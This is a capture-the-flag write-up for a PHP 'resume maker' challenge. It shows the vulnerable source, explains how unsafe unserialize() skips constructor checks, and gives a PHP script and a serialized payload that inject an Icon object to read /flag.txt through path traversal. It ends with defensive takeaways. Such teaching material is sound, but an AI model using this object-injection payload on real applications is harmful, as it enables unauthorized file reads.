

> *Before we start, I won't dive deeply into serialization in general. Instead, I recommend this comprehensive [X thread](https://x.com/vickieli7/status/1293947638677741569), which links to everything you need to know about PHP deserialization vulnerabilities.*

*[Link to the challenge if you want to give it a try.](https://alpacahack.com/challenges/resume-maker)*

## Unnecessary rambling (skip if not interested)

Unlike yesterday—when I struggled to analyze the application's state flow and understand how different pieces of code fit together to create developer assumptions I needed to challenge—I solved today's challenge in less than an hour. This marks a success story I'm about to share now. :)

## Challenge description


The challenge features a resume creation and sharing service. Essentially, you can send a POST request with your information and receive a base64-encoded serialized `User` object. For someone else to access your resume, you provide them with the generated base64 string, which they deserialize on their end:

```php
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if (!empty($_POST['serialized'])) {
        $decoded = base64_decode($_POST['serialized'], true);
        if ($decoded !== false) {
            $user = unserialize($decoded);
        }
        // echo var_dump($user);
        if ($user instanceof User) {
            $serialized = $_POST['serialized'];
        } else {
            $user = null;
        }
    }
    if ($user === null) {
        $user = new User($_POST);
        $serialized = base64_encode(serialize($user));
    }
    $icon = new Icon($user->iconType);
}

```

The flag is located at `/flag.txt`, which indicates the need for a file inclusion sink found in the `Icon` class:

```php
class Icon {
    public $path;

    public function __construct(string $type)
    {
        $allowed = ['A', 'B', 'C'];
        if (!in_array($type, $allowed, true)) {
            throw new InvalidArgumentException('Unknown icon type.');
        }

        $this->path = "/public/{$type}.png";
    }

    public function render(): string
    {
        return '';
    }

    public function __toString(): string
    {
        $contents = file_get_contents(__DIR__ . $this->path);
        if ($contents === false) {
            return '';
        }
        return 'data:image/png;base64,' . base64_encode($contents);
    }
}

```

The class has a `__toString()` [magic method](https://www.php.net/manual/en/language.oop5.magic.php#object.tostring) that is invoked upon string casting. Essentially, this occurs whenever you run `echo new Icon(...)` or, in this particular case, call the `render` method.

## Applying what we learned

Unlike yesterday, I took a step back and analyzed the developer's assumptions about their codebase:

1. We have a `path` property that is fed to `__toString()`.
2. That *path* is assumed to be *safe* due to constructor validation.

However, the developer overlooked that when deserializing a PHP object, only magic methods like `__wakeup()` and `__destruct()` are called. The constructor is never executed.

Additionally, PHP serialization follows the `O:<class_name_length>:"<class_name>":<number_of_properties>:{<properties>}` format. As you can see, properties are set directly without validation, enabling us to control the `path` variable.

## Issues and difficulties

Unfortunately for us, the developer validates the type of the deserialized object:

```php
if ($user instanceof User) {
    $serialized = $_POST['serialized'];
} else {
    $user = null;
}

```

If our deserialized object isn't an instance of `User`, it's set to null, and a new `User` object is created instead. This means we can only instantiate `User` objects. :(

## POP Chains

Looking back at the codebase, we notice something interesting about the `User` class:

```php
class User {
    public $name;
    public $title;
    public $summary;
    public $skills;
    public $iconType;

    public function __construct(array $data)
    {
        $this->name = $data['name'] ?? '';
        $this->title = $data['title'] ?? '';
        $this->summary = $data['summary'] ?? '';
        $this->skills = $data['skills'] ?? '';
        $this->iconType = $data['icon_type'] ?? 'A';
    }
}

```

Among all the defined properties, none are strongly typed.

> *By strongly typed, I mean using declarations like `public string $name`, for example.*

This means we can assign any type to any property. Thanks to the abundance of `echo` statements later in the code, these properties will be cast to strings, allowing us to inject our maliciously serialized `Icon` object comfortably!

## Solution

I originally solved the challenge manually without using PHP's `serialize()` function to generate the serialized payload, but I figured that was inefficient. Here is the PHP script instead:

```php
<?php
class User {
    public $name = '';
    public $title = '';
    public $summary = '';
    public $skills;
    public $iconType = 'A'; // needed for checks

    public function __construct()
    {
        $this->skills = new Icon();
    }
}

class Icon {
    public $path = "/../../../../flag.txt";
}

$foo = new User();
print base64_encode(serialize($foo));

```

The generated payload (base64 decoded) is this:

```
O:4:"User":5:{s:4:"name";s:0:"";s:5:"title";s:0:"";s:7:"summary";s:0:"";s:6:"skills";O:4:"Icon":1:{s:4:"path";s:21:"/../../../../flag.txt";}s:8:"iconType";s:1:"A";}

```



And there we go, the flag is: `Alpaca{po_popopopop_PoPoPo_PoP_chain}`

---

### Key Takeaways

*   **Constructors are Bypassed:** During PHP deserialization via `unserialize()`, the `__construct()` method is ignored. State is assigned directly, rendering any input validation or sanitization inside the constructor completely useless.
*   **Direct Property Control:** Serialized payloads dictate object properties directly. Because the developer assumed the `Icon` path was safe (due to the bypassable constructor logic), an attacker can easily manipulate the property inside the payload to traverse directories.
*   **Weak Typing Enables POP Chains:** The lack of strict type declarations in the `User` class (e.g., leaving `$skills` untyped rather than enforcing `public string $skills`) allows an attacker to substitute an expected primitive string with an instantiated `Icon` object.
*   **Magic Method Sinks:** Injecting an object into a property that the application expects to be a string eventually forces type-casting. When the code `echo`es or concatenates that property, PHP automatically triggers the object's `__toString()` magic method, which serves as the execution sink (in this case, arbitrary file read via `file_get_contents`).

---

### References

*(Note: X/Twitter blocks automated scraping of individual status pages, so I retrieved the direct target URLs to Vickie Li's PHP Deserialization series that the tweet references.)*

*   **[Exploiting PHP Deserialization](https://vickieli.dev/insecure%20deserialization/exploiting-php-deserialization/)** — A deep dive into PHP object injection vulnerabilities and how `unserialize()` works under the hood.
*   **[POP Chains in PHP](https://vickieli.dev/insecure%20deserialization/pop-chains/)** — A walkthrough of Property Oriented Programming and how to chain code gadgets together.
*   **[Diving into unserialize(): Phar Deserialization](https://medium.com/@vickieli/diving-into-unserialize-phar-deserialization-98b1254380e9)** — An explanation of how to expand PHP object injection attacks via the `phar://` wrapper.
